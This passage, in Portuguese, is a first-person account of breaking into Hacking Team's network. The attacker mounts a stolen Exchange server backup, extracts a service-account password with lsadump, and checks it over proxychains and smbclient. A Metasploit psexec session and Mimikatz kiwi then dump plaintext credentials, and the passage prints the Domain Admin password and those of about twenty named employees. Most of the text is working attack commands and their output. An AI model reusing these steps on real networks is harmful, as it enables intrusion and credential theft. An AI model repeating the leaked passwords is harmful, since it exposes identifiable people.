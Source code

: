 então o deslocamento é 2048 * 512 = 1048576
~~~
$ losetup -o 1048576 /dev/loop1 /dev/loop0
$ mount -o ro /dev/loop1 /mnt/exchange/
~~~

agora em /mnt/exchange/WindowsImageBackup/EXCHANGE/Backup 2014-10-14 172311
encontramos o disco rígido da VM e o montamos:
~~~
vdfuse -r -t VHD -f f0f78089-d28a-11e2-a92c-005056996a44.vhd /mnt/vhd-disk/
mount -o loop /mnt/vhd-disk/Partition1 /mnt/part1
~~~
...e finalmente descompactamos a boneca russa e podemos ver todos os arquivos do antigo servidor Exchange em /mnt/part1

[1] https://ht.transparencytoolkit.org/FileServer/FileServer/Hackingteam/InfrastrutturaIT/Rete/infrastruttura%20ht.pdf

--[ 10 - Bbackups para Domain Admin ]-----------------------------------------

O que mais me interessou no backup foi ver se tinha uma senha ou hash que pudesse ser usado para acessar o servidor live. Usei pwdump, cachedump e lsadump [1] nas seções do registro. lsadump encontrou a senha da conta de serviço besadmin:

~~~
_SC_BlackBerry MDS Connection Service
0000   16 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00    ................
0010   62 00 65 00 73 00 33 00 32 00 36 00 37 00 38 00    b.e.s.3.2.6.7.8.
0020   21 00 21 00 21 00 00 00 00 00 00 00 00 00 00 00    !.!.!...........
~~~

Usei proxychains [2] com o servidor socks no dispositivo embutido e smbclient [3] para verificar a senha:
~~~ 
proxychains smbclient '//192.168.100.51/c$' -U 'hackingteam.local/besadmin%bes32678!!!' 
~~~

Funcionou! A senha para besadmin ainda era válida, e um administrador local. Eu usei meu proxy e o psexec_psh do metasploit [4] para obter uma sessão do meterpreter. Em seguida, migrei para um processo de 64 bits, executei "load kiwi" [5], "creds_wdigest" e recebi um monte de senhas, incluindo o Domain Admin:

~~~
HACKINGTEAM  BESAdmin       bes32678!!!
HACKINGTEAM  Administrator  uu8dd8ndd12!
HACKINGTEAM  c.pozzi        P4ssword      <---- lol excelente sysadmin
HACKINGTEAM  m.romeo        ioLK/(90
HACKINGTEAM  l.guerra       4luc@=.=
HACKINGTEAM  d.martinez     W4tudul3sp
HACKINGTEAM  g.russo        GCBr0s0705!
HACKINGTEAM  a.scarafile    Cd4432996111
HACKINGTEAM  r.viscardi     Ht2015!
HACKINGTEAM  a.mino         A!e$$andra
HACKINGTEAM  m.bettini      Ettore&Bella0314
HACKINGTEAM  m.luppi        Blackou7
HACKINGTEAM  s.gallucci     1S9i8m4o!
HACKINGTEAM  d.milan        set!dob66
HACKINGTEAM  w.furlan       Blu3.B3rry!
HACKINGTEAM  d.romualdi     Rd13136f@#
HACKINGTEAM  l.invernizzi   L0r3nz0123!
HACKINGTEAM  e.ciceri       2O2571&2E
HACKINGTEAM  e.rabe         erab@4HT!
~~~
